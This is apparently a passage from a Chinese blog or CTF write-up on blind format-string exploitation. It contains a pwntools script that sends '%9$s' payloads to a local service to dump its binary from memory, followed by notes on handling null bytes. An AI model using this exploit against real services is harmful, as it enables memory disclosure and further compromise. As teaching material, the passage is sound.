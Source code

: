 > 这里最好从0x8048000开始泄漏，不要只泄漏.text段。不然，会有很多符号解析数据没有泄漏下来。

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import binascii
# context.log_level = 'debug'

r = remote('127.0.0.1',9999)
r.recv()
r.sendline('moxiaoxi')
r.recv()

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    resp = r.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret


begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        if len(ret) == 0:
            begin +=1
            text_seg += '\x00'
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin','wb') as f:
        f.write(text_seg)


```

在进行dump的过程中实际上是需要注意一些内容的，原因是%s进行输出时实际上是x00截断的，但是.text段中不可避免会出现x00，但是我们注意到还有一个特性，如果对一个x00的地址进行leak，返回是没有结果的，因此如果返回没有结果，我们就可以确定这个地址的值为x00，所以可以设置为x00然后将地址加1进行dump。

内存数据dump下来后，虽然跟原始bin有很大不同，也运行不了，但是丢到ida中仍然是可以看的:

![2](https://moxiaoxi.info/img/post/Fmtstr/2.png)
